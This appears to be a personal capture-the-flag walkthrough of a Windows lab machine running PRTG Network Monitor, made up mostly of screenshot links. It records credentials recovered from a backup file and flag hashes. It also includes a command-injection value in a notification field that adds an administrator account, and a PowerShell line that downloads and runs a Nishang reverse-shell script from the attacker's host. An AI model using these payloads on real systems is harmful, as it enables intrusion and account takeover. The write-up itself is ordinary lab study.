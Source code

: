 #Windows 

![[Pasted image 20240610174858.png]]

![[Pasted image 20240610175040.png]]


**Port 21**
![[Pasted image 20240610175259.png]]

![[Pasted image 20240610175758.png]]

user.txt : a9e5cf20e1203f415ab011e68791d341

***

`ls -la`

![[Pasted image 20240610182239.png]]

Lets take a look into the back up files
![[Pasted image 20240610182521.png]]

`less PRTG\ Configuration.old.bak`
![[Pasted image 20240610182805.png]]

prtgadmin : PrTg@dmin2018

***


**Port 80**
![[Pasted image 20240610175144.png]]

default creds do not work

![[Pasted image 20240610183050.png]]

**ExploitDB**
https://www.exploit-db.com/exploits/46527
![[Pasted image 20240610183120.png]]

`login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.\n# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!`

![[Pasted image 20240610183231.png]]

The creds we found before did not work, however, seeing as we looked through a back up file, we can guess 2019 instead.

This works. Now lets collect the cookie to use in the exploit

![[Pasted image 20240610184910.png]]

![[Pasted image 20240610185054.png]]

![[Pasted image 20240610185310.png]]


![[Pasted image 20240610192844.png]]

***

This didnt quit end up working so we will manually create a new user named hacker in Setup -> Account Settings -> Notifications

Create New Alert -> Execute Program

![[Pasted image 20240610192616.png]]

`test.txt;net user hacker hacker#! /add;net localgroup administrators hacker /add`

Save and Test

![[Pasted image 20240610192735.png]]

![[Pasted image 20240610192807.png]]

![[Pasted image 20240610192820.png]]

FAIL
![[Pasted image 20240610195003.png]]

![[Pasted image 20240610195021.png]]

Our script may not be running 'CMD' commands. 
Lets try a powershell script

***

**NISHANG**
#tools 

![[Pasted image 20240610200443.png]]

Lets use `Invoke-PowerShellTcp.ps1`

Grab this line and append to end of file

![[Pasted image 20240610200701.png]]

![[Pasted image 20240610200820.png]]

***

*Switching to Kali to view multiple windows*

Serve file using python
![[Pasted image 20240610201233.png]]

Create new alert with PS 

`test; IEX(New-Object Net.WebClient).downloadString('http://10.10.16.8:9000/psrev.ps1')`

![[Pasted image 20240610201607.png]]

Start NC listener and trigger alert

![[Pasted image 20240610201827.png]]

![[Pasted image 20240610202046.png]]



root.txt : 5590c3677a25a3852b990c8526636605

***
***




